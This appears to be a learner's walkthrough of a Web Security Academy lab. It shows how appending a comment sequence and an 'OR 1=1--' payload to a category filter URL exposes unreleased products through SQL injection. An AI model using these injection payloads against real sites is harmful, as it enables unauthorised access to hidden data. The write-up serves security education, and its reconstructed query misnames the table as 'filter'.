

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

>SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

## Attempt

This is the website given and we can see that the link given to us is:

> https://0a7e00070410d050812f0711009f00d6.web-security-academy.net/

When we click into a category, the link changes to:

> https://0a7e00070410d050812f0711009f00d6.web-security-academy.net/filter?category=Clothing,+shoes+and+accessories

We can clearly see the SQL request 
>filter?category=Clothing,+shoes+and+accessories

Therefore the code in SQL would look like this:

> SELECT * FROM filter WHERE category = 'Clothing, shoes and accessories' AND released = 1

We want to see all the products from this page, therefore there are a few methods we can try. 
* To look specifically into the category for all products, we can comment the _"AND released = 1"_ part out

    >filter?category=Clothing,+shoes+and+accessories'--

* That would cause the SQL request to look like:

    > SELECT * FROM filter WHERE category = 'Clothing, shoes and accessories'--' AND released = 1

* Thus effectively commenting out the part that shows released products only.

To see all the products in the website, released and unreleased, we inject a TRUE statement, so that by Universal Bound Laws, the query will always be true and return all the products.

    >filter?category=Clothing,+shoes+and+accessories'+OR+1=1--

* That would cause the SQL request to look like:

    > SELECT * FROM filter WHERE category = 'Clothing, shoes and accessories' OR 1=1--' AND released = 1

* This causes the database to check condition OR TRUE, which always returns TRUE, and it also comments out the part that only displays released products.

